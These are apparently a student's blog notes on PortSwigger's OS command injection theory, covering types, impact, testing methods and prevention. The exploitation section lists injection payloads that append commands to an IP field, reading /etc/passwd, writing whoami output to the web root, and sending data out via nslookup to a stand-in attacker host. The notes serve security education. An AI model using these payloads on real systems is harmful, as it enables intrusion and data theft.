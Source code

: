 ```yaml
---
layout: post
title:  "PortSwigger - Command Injection - Theory"
date:   2024-07-06 13:40
image:  /images/portswigger/WebSecurityAcademy.png
tags:   [command-injection,bscp]
categories: [PortSwigger]
---
```


# Introduction
>OS Command Injection is a vulnerability that consists of an attacker executing commands on the host operating system via a vulnerable application.
<br/>
<br/>
<b>Reference:</b>
<br/>
<a href="https://academy.ranakhalil.com/courses/1491236/lectures/38308201">Rana Khalil Academy - OS Command injection</a>
<br/>
<a href="https://portswigger.net/web-security/os-command-injection">PortSwigger - OS Command Injection</a>
<br/>
<a href="https://owasp.org/www-community/attacks/Command_Injection">OWASP - Command Injection</a>
<br/>
<a href="https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html">OWASP - OS Command Injection Defense Cheat Sheet</a>
<br/>

### Two conditions for OS Command Injection vulnerabilities:
<hr/>

1. Uses a function that can execute system commands such as exec.
1. The parameter of executable methods are user controllable.

![Code vulnerable to command injection](/images/portswigger/CommandInjection/VulnerableCommandInjectionCodeExample.png)

### Types of Command Injection
<hr/>

#### In-band Command Injection
Consists of an attacker executing commands on the host operating system via a vulnerable application and `receiving the response of the command in the application.`
<br/>

#### Blind Command Injection
Consists of an attacker executing commands on the host operating system via a vulnerable application `that does not return the output from the command within its HTTP response.`
<br/>

### Impact of Command Injection Attacks:
- Unauthorized access to the application:
    - `Confidentiality` - Command injection can be used to view sensitive information.
    - `Integrity` - Command Injection can be used to alter content in the application.
    - `Availability` - Command Injection can be used to delete content in the application.
- Remote code execution on the operating system.

![OWASP - Injection Ranking](/images/portswigger/CommandInjection/OWASP_Injection_Ranking)

### How to find Command Injection ?
<hr/>

#### Black-Box Testing
- Map the application
    - Identify all instances where the web application appears to be interacting with the underlying operating system. 
- Fuzz the application. 
    - Shell metacharacters: &, &&, |, ||, ;, \n, `, $(). 
- For in-band command injection, analyze the response of the application to determine if it’s vulnerable. 
- For blind command injection, you need to get creative. 
    - Trigger a time delay using the ping or sleep command. 
    - Output the response of the command in the web root and retrieve the file directly using a browser. 
    - Open an out-of-band channel back to a server you control.

#### White-Box Testing
- Perform a combination of black box and white-box testing. 
- Map all input vectors in the application. 
- Review source code to determine if any of the input vectors are added as parameters to functions that execute system commands. 
- Once a vulnerability is identified, test it to confirm that it is exploitable.

### How to exploit command injection ?
<hr/>

#### Exploiting In-band Command injection
- Shell metacharacters:
```
&
&& 
|
|| 
;
\n
`
$()
```
- Concatenate another command
```
127.0.0.1 && cat /etc/passwd &
127.0.0.1 & cat /etc/passwd &
127.0.0.1 || cat /etc/passwd &
```

#### Exploiting Blind Command Injection
- Shell metacharacters: 
```
&
&&
|
||
;
\n
`
$()
```
- Trigger a time delay
```
127.0.0.1 && sleep 10 &
127.0.0.1 && ping -c 10 127.0.0.1 &
```
- Output the response of the command in the web root and retrieve the file directly using a browser
```
127.0.0.1 & whoami > /var/www/static/whoami.txt #
```
- Open an out-of-band channel back to a server you control.
```
127.0.0.1 & nslookup kgji2ohoyw.web-attacker.com &
127.0.0.1 & nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

### How to prevent Command injection ?
<hr/>

#### Preventing Command Injection Vulnerabilities
The most effective way to prevent OS command injection vulnerabilities is to never call out to OS commands from application-layer code. Instead, implement the required functionality using safer platform APIs.
- For example: use mkdir() instead of system("mkdir/dir_name")

It is required to perform OS commands using user-supplied input, then strong input validation must be performed. 
- Validate against a whitelist of permitted values. 
- Validate that the input is as expected or valid input.
<hr/>
